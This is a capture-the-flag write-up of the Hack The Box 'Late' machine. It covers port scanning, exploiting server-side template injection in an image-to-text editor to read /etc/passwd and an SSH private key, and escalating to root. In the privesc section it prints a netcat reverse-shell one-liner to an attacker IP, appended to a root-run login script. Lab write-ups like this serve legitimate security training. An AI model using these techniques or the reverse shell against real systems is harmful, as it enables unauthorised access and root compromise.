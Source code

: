 ```yaml
---
layout: post
title: Late HTB Writeup
excerpt_separator: <!--more-->
---
```


Late Htb Writeup
---

![late](https://user-images.githubusercontent.com/96860148/172097378-e0db8140-3297-481a-af43-f5d7f98e4773.png)

1.Enumeration
---
<!--more-->

nmap
~~~
┌──(wolf㉿piratesec)-[~/Htb/late]
└─$ nmap --min-rate 10000 -p- 10.129.227.134 -oN nmap
Starting Nmap 7.92 ( https://nmap.org ) at 2022-06-06 03:58 EDT
Warning: 10.129.227.134 giving up on port because retransmission cap hit (10).
Nmap scan report for 10.129.227.134
Host is up (0.19s latency).
Not shown: 58789 closed tcp ports (conn-refused), 6744 filtered tcp ports (no-response)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 41.48 seconds
~~~

The nmap scan did not give much results and port 80 will be our foothold.

### port 80
Looking around in the web server I find a link to an online photo editor.

![editor](https://user-images.githubusercontent.com/96860148/172098611-ae7eddec-8fc3-42b2-a824-60baf33d2f6b.png)

Heading there I'm taken to **images.late.htb** . Time to add it to /etc/hosts
~~~
10.129.227.134  late.htb
10.129.227.134  images.late.htb
~~~

#### Images.late.htb

![images late](https://user-images.githubusercontent.com/96860148/172099127-386d6e77-c092-45a0-b25c-4c31d4a3d745.png)

I uploaded this picture

![late](https://user-images.githubusercontent.com/96860148/172097378-e0db8140-3297-481a-af43-f5d7f98e4773.png)

and got back results,txt which had...

![results](https://user-images.githubusercontent.com/96860148/172099605-5b3f70a9-ad75-4df3-b436-4a3d9508bdc8.png)

This smelled of SSTI....

# [SSTI (From Hacktricks)](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection)

A server-side template injection occurs when an attacker is able to use native template syntax to inject a malicious payload into a template, which is then executed server-side.

## Detect

The simplest initial approach is to try fuzzing the template by injecting a sequence of special characters commonly used in template expressions, such as the polyglot ${{<%[%'"}}%\.

Detect - Plaintext context

The given input is being rendered and reflected into the response. This is easily mistaken for a simple XSS vulnerability, but it's easy to differentiate if you try to set mathematical operations within a template expression:

So i'm going to use this image with mathematical operations to see if the site is vulnerable to SSTI...

![payload](https://user-images.githubusercontent.com/96860148/172100440-b2844de1-704e-45c9-b84b-76b0c93addfe.png)

Which gives back ...

![results1](https://user-images.githubusercontent.com/96860148/172100701-9b66cc81-abce-4422-b62c-c1558535d99d.png)

The site is vulnerable to SSTI..

2 Foothold
---
## Exploitation

Since it's a flask application I'll try to read the contents of the /etc/passwd using this payload

![payload1](https://user-images.githubusercontent.com/96860148/172102020-3fb83062-2510-454e-8573-3afa50eb1ae6.png)

Which gives me
~~~
<p>o
7 root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:109:1::/var/cache/pollinate:/bin/false
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
svc_acc:x:1000:1000:Service Account:/home/svc_acc:/bin/bash
rtkit:x:111:114:RealtimeKit,,,:/proc:/usr/sbin/nologin
usbmux:x:112:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
avahi:x:113:116:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/usr/sbin/nologin
cups-pk-helper:x:114:117:user for cups-pk-helper service,,,:/home/cups-pk-helper:/usr/sbin/nologin
saned:x:115:119::/var/lib/saned:/usr/sbin/nologin
colord:x:116:120:colord colour management daemon,,,:/var/lib/colord:/usr/sbin/nologin
pulse:x:117:121:PulseAudio daemon,,,:/var/run/pulse:/usr/sbin/nologin
geoclue:x:118:123::/var/lib/geoclue:/usr/sbin/nologin
smmta:x:119:124:Mail Transfer Agent,,,:/var/lib/sendmail:/usr/sbin/nologin
smmsp:x:120:125:Mail Submission Program,,,:/var/lib/sendmail:/usr/sbin/nologin

</p>
~~~

Looking in the /etc/passwd file I can see there is a user called **sc_acc**. Remember port 22 was open from the nmap scan. I'll try to read svc_acc's ssh private key...

The payload...

![1](https://user-images.githubusercontent.com/96860148/172102374-39d23e05-45f4-476d-994f-31d899a29ef6.png)

And voila...the private key..

![key](https://user-images.githubusercontent.com/96860148/172102500-0f158cb9-efd1-4df5-aecb-45260137c4ac.png)

I give the key necessary permissions **chmod +600 rsa** and use it to login to ssh and read the user flag.

![ssh](https://user-images.githubusercontent.com/96860148/172103225-76eaadfe-986b-42b3-936e-66fb05f4303b.png)


3 Privesc
---
Enter linpeas

I'm going to start a python server on my local machine to transfer linpeas to the compromised machine and try to look for ways to escalate priviledges..

![python](https://user-images.githubusercontent.com/96860148/172104066-efd5cdf1-01da-4363-9b2f-63cb82f1d06e.png)

Then use curl to get the file

![curl](https://i.imgur.com/NzEHzqz.png)

Looking at the output of linpeas and using this guide..

![help](https://i.imgur.com/0TRtKpB.png)

I find this interesting file..

![file](https://i.imgur.com/Zh6Z9Qx.png)

Rading the contents of the file, the script runs every time a user logins or exits in. I'll append a reverse shell to the script to see if I'll get something

~~~
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.47 1234 >/tmp/f" >> ssh-alert.sh
~~~
Along the way I got some minor issues and reset the machine to get it as good as new.

I start a netcat listener on my local machine and when I exit from my ssh session, I get a reverse shell..as ROOT !!

![rev](https://i.imgur.com/m2FfaMN.png)
